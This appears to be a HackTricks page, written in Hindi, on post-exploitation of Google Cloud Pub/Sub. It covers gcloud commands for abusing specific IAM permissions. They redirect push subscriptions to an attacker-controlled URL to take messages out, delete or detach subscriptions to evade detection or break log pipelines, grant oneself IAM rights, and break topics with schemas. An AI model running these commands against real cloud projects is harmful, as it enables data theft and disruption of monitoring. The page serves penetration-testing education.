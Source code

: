 # GCP - Pub/Sub Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

एक विषय में एक संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का लाभ उठाने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

सदस्यता को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह एक विषय को हटाना संभव है, भले ही इसके साथ सदस्यताएँ जुड़ी हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग विषय की कुछ सेटिंग को अपडेट करने के लिए करें ताकि इसे बाधित किया जा सके, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

अपने लिए किसी भी पिछले हमले को करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
एक सदस्यता बनाएं और इसका उपयोग **संदेश खींचने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सदस्यता हटाना** लॉग प्रोसेसिंग सिस्टम या कुछ समान को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग को अपडेट करने के लिए करें ताकि संदेश एक ऐसी जगह पर संग्रहीत हों जहाँ आप पहुँच सकते हैं (URL, Big Query तालिका, बकेट) या बस इसे बाधित करने के लिए।
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

अपने आप को उन हमलों को करने के लिए आवश्यक अनुमतियाँ दें जिनका पहले उल्लेख किया गया था।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक टॉपिक से जोड़ें ताकि संदेश इसे पूरा न करें और इसलिए टॉपिक बाधित हो जाए।\
यदि कोई स्कीमा नहीं है, तो आपको एक बनाने की आवश्यकता हो सकती है।
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है जैसे आप एक स्कीमा को हटा रहे हैं जिससे आप ऐसे संदेश भेज सकेंगे जो स्कीमा के अनुरूप नहीं हैं। हालाँकि, चूंकि स्कीमा हटा दिया जाएगा, कोई संदेश वास्तव में विषय के अंदर नहीं जाएगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आपको उन अनुमतियों को दें जो पहले टिप्पणी किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अनACK किए गए संदेशों का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
